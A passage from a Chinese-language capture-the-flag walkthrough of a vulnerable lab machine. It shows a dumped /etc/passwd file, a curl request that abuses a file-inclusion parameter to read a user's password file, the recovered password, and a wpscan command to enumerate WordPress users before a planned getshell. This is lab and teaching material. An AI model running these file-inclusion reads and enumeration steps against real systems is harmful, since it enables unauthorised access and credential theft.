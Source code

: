```html
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
victor:x:1000:1000:victor,,,:/home/victor:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
saket:x:1001:1001:find password.txt file in my directory:/home/saket:
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
</html>
```

我们感兴趣的用户名 victor，saket



通过上述信息继续文件包含

```
curl  http://192.168.125.142/image.php?secrettier360=/home/saket/password.txt
```

结果如下：

```html
<html>
<title>HacknPentest</title>
<body>
 <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
</body>
finaly you got the right parameter<br><br><br><br>follow_the_ippsec
```





通过获取的**用户名：** victor，saket **密码：**follow_the_ippsec登录ssh 服务失败



目前我们已经获取到了密码为 ：follow_the_ippsec ，接下来需要获取用户名，因为 网站是 wordpress 环境，常见的漏洞是用户名枚举漏洞，通过登录wordpress 后台 getshell  获取初步的权限。



## 2.1 用户名枚举：

```
sudo wpscan --url http://192.168.125.142/wordpress -e u
```



